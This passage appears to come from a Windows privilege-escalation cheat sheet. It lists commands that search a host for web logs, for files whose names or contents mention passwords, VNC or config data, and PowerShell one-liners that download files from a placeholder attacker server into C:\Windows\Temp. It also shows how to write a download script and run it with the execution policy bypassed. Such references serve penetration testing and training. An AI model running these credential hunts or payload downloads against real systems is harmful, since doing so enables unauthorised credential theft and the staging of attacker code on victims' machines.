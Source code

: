 Any Apache web logs?

```text
dir /s access.log error.log
```

```text
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

Any interesting files to look at? Possibly inside User directories \(Desktop, Documents, etc\)?

```text
dir /s *pass* == *vnc* == *.config* 2>nul
```

```text
Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue
```

Files containing password inside them?

```text
findstr /si password *.xml *.ini *.txt *.config 2>nul
```

```text
Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
```

## Appendix <a id="appendix"></a>

### Transferring Files <a id="transferring-files"></a>

At some point during privilege escalation you will need to get files onto your target. Below are some easy ways to do so.

Powershell Cmdlet \(Powershell 3.0 and higher\)

```text
Invoke-WebRequest "https://myserver/filename" -OutFile "C:\Windows\Temp\filename"
```

Powershell One-Liner

```text
(New-Object System.Net.WebClient).DownloadFile("https://myserver/filename", "C:\Windows\Temp\filename")
```

Powershell Script

```text
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://IPADDRESS/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
